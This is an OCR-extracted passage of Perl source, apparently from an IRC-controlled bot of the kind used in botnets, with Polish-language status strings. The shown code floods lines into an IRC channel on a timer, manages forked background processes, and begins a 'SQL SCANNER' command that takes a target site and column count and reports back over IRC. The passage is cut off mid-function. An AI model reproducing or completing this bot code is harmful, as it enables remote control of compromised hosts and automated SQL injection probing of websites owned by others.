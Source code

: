         

      for($i=9;$i<=$ile;$i+=4) { 

  

         for($j=0;$j<4;$j++) { 

            #print $lines[$i+$j]."\n"; 

              

            sendraw($IRC_cur_socket, "PRIVMSG $printl :$kto $lines[$i+$j]"); 

              

            sleep 10; 

         } 

           

         sleep $czekac*60; 

      } 

  

   } 

      delproc($$); 

      exit; 

   } 

} 

  

  

  

  

  

#######  SQL SCANNER  ######### 

  

if ($funcarg =~ /^sql\s+(.*)\s+(\d+)/){ 

   if (my $pid = fork()) { 

      waitpid($pid, 0); 

   } else { 

      if (my $d=fork()) { 

         addproc($d,"[SQL1] $1 $2"); 

         exit; 

      } else { 

         my $site=$1; 

         my $columns=$2; 

         sendraw($IRC_cur_socket, "PRIVMSG $printl :4,16 [ sql ] [ 12Sprawdzam: 4$site 12cols: 4 $columns ] "); 
